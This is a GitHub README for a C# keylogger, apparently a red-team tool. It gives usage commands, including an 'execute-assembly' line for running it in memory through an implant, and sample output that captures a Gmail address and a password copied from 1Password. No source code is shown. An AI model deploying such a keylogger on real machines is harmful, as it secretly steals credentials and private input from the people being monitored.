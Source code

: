 # SharpLogger

## Author's Note

I maintain no project, but for one that is more frequently updated (and more stable), I recommend you use WireTap's implementation of this keylogger which can be found here: https://github.com/djhohnstein/WireTap

## Description

Simple C# project to log keystrokes to both console and a temp file.

## Usage

`.\Keylogger.exe`

`execute-assembly Keylogger.exe`

## Example Output

```
User    : DOMAIN\USER
Window  : Gmail - Google Chrome
Time    : 2018-12-18 01:01:54 PM
LogFile : C:\Users\USER\AppData\Local\Temp\ffbe0dfd-2d6a-4470-9e4b-0c65eeec5a9c.log
----------------------------------------------

testuser@gmail.com<Enter><Ctrl><Windows Key><Left>

User    : DOMAIN\USER
Window  : 1Password
Time    : 2018-12-18 01:01:59 PM
LogFile : C:\Users\USER\AppData\Local\Temp\ffbe0dfd-2d6a-4470-9e4b-0c65eeec5a9c.log
----------------------------------------------

<Ctrl>
        [cntrl-C] Clipboard Copied: mciDuz72zKmkqiEaLG

        [cntrl-C] Clipboard Copied: mciDuz72zKmkqiEaLG
<Ctrl><Windows Key><Right>
```

## Special Thanks

To PowerSploit and Justin Bui's project, SharpClipboard (https://github.com/justinbui/SharpClipboard)
